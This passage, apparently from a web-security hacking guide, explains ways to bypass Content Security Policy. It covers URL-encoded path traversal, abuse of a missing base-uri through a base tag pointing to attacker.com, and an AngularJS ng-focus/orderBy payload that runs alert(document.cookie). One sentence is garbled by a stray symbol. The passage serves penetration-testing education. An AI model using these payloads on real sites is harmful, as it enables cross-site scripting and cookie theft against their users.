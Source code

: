 The browser will ultimately load `https://example.com/scripts/angular/angular.js`.

This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

∑, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

By **exploiting this inconsistency in URL interpretation between the browser and the server, the path rules can be bypassed**.

The solution is to not treat `%2f` as `/` on the server-side, ensuring consistent interpretation between the browser and the server to avoid this issue.

Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Iframes JS execution

{% content-ref url="../xss-cross-site-scripting/iframes-in-xss-and-csp.md" %}
[iframes-in-xss-and-csp.md](../xss-cross-site-scripting/iframes-in-xss-and-csp.md)
{% endcontent-ref %}

### missing **base-uri**

If the **base-uri** directive is missing you can abuse it to perform a [**dangling markup injection**](../dangling-markup-html-scriptless-injection/).

Moreover, if the **page is loading a script using a relative path** (like `<script src="/js/app.js">`) using a **Nonce**, you can abuse the **base** **tag** to make it **load** the script from **your own server achieving a XSS.**\
If the vulnerable page is loaded with **httpS**, make use an httpS url in the base.

```html
<base href="https://www.attacker.com/">
```

### AngularJS events

A specific policy known as Content Security Policy (CSP) may restrict JavaScript events. Nonetheless, AngularJS introduces custom events as an alternative. Within an event, AngularJS provides a unique object `$event`, referencing the native browser event object. This `$event` object can be exploited to circumvent the CSP. Notably, in Chrome, the `$event/event` object possesses a `path` attribute, holding an object array implicated in the event's execution chain, with the `window` object invariably positioned at the end. This structure is pivotal for sandbox escape tactics.

By directing this array to the `orderBy` filter, it's possible to iterate over it, harnessing the terminal element (the `window` object) to trigger a global function like `alert()`. The demonstrated code snippet below elucidates this process:

```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

This snippet highlights the usage of the `ng-focus` directive to trigger the event, employing `$event.path|orderBy` to manipulate the `path` array, and leveraging the `window` object to execute the `alert()` function, thereby revealing `document.cookie`.
